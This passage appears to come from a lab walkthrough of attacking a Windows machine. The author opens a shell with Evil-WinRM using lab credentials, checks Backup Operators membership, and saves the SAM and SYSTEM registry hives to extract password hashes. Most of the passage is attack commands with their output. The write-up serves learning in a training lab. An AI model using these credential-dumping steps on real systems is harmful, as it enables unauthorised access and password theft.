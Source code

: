 ```Bash
root@ip-10-10-72-227:~# evil-winrm -i 10.10.41.253 -u thmuser1 -p Password321

Evil-WinRM shell v2.4

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\thmuser1\Documents> 
```
8. `whoami /groups` from the command line in our active WinRM session to display what groups the currently logged in user is a part of onto our terminal, which showed the **Backup Operators** group to be enabled since we enabled the LocalAccountTokenFilterPolicy registry policy on the compromised Windows machine
```bash
*Evil-WinRM* PS C:\Users\thmuser1\Documents> whoami /groups

GROUP INFORMATION
-----------------

Group Name                           Type             SID          Attributes
==================================== ================ ============ ==================================================
Everyone                             Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                        Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
BUILTIN\Backup Operators             Alias            S-1-5-32-551 Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users      Alias            S-1-5-32-580 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                 Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users     Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization       Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account           Well-known group S-1-5-113    Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication     Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level Label            S-1-16-12288
```
9. `cd \` from the command line in our active WinRM session to change to the compromised Windows machine's filesystem root directory to ensure that we'll be executing the following commands from starting from there
```Bash
*Evil-WinRM* PS C:\Users\thmuser1\Documents> cd \
```
10. `reg save hklm\system <FILENAME1>.bak` from the command line in our active WinRM session to create and save a backup file of the compromised Windows machine's **System** registry key, which successfully created the backup file on the compromised machine
```Bash
*Evil-WinRM* PS C:\> reg save hklm\system SYSTEM.bak
The operation completed successfully.

```
11. `reg save hklm\sam <FILENAME2>.bak` from the command line in our active WinRM session to create and save a backup file of the compromised Windows machine's **SAM** registry key, which successfully created the backup file on the compromised machine
```Bash
*Evil-WinRM* PS C:\> reg save hklm\sam SAM.bak
The operation completed successfully.

```
